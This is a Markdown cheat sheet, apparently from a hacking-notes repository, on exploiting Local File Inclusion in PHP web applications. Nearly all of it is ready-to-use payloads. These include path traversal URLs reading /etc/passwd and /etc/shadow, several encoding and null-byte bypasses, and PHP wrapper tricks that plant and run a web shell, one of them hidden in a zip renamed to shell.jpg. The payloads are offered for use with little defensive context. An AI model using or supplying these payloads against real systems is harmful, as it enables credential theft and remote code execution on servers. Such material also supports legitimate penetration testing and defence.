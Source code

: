 ## Local File Inclusion (LFI)

## Introduction
Local File Inclusion is an attack technique in which attackers trick a web application into either running or exposing files on a web server

## Where to find
- Any endpoint that includes a file from a web server. For example, `/index.php?page=index.html`

## How to exploit
1. Basic payload
```
http://example.com/index.php?page=../../../etc/passwd
http://example.com/index.php?page=../../../../../../../../../../../../etc/shadow
```

2. URL encoding
```
http://example.com/index.php?page=%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
```

3. Double encoding
```
http://example.com/index.php?page=%252e%252e%252f%252e%252e%252fetc%252fpasswd
```

4. UTF-8 encoding
```
http://example.com/index.php?page=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd
```

5. Using Null Byte (%00)
```
http://example.com/index.php?page=../../../etc/passwd%00
```

6. From an existent folder
```
http://example.com/index.php?page=scripts/../../../../../etc/passwd
```

7. Path truncation
```
http://example.com/index.php?page=a/../../../../../../../../../etc/passwd/././.[ADD MORE]/././.
http://example.com/index.php?page=a/./.[ADD MORE]/etc/passwd
```

8. Using PHP Wrappers: filter
```
http://example.com/index.php?page=php://filter/read=string.rot13/resource=config.php
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=config.php
```

9. Using PHP Wrappers: zlib
```
http://example.com/index.php?page=php://filter/zlib.deflate/convert.base64-encode/resource=/etc/shadow
```

10. Using PHP Wrappers: zip
```
echo "<pre><?php system($_GET['cmd']); ?></pre>" > payload.php;
zip payload.zip payload.php;
mv payload.zip shell.jpg;
rm payload.php
http://example.com/index.php?page=zip://shell.jpg%23payload.php
```

11. Using PHP Wrappers: data
```
http://example.com/index.php?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ID8+
```

12. Using PHP Wrappers: expect
```
http://example.com/index.php?page=expect://ls
```

13. Using PHP Wrappers: input
```
POST /index.php?page=php://input&cmd=ls HTTP/1.1
Host: example.com
...
<?php echo shell_exec($_GET['cmd']); ?>
```

14. Some unique bypass
```
http://example.com/index.php?page=....//....//etc/passwd
http://example.com/index.php?page=..///////..////..//////etc/passwd
http://example.com/index.php?page=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd
http://example.com/index.php?page=/.%2e/.%2e/.%2e/.%2e/etc/passwd
http://example.com/index.php?page=/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/etc/passwd
```

## References
* [Aptive](https://www.aptive.co.uk/blog/local-file-inclusion-lfi-testing/)
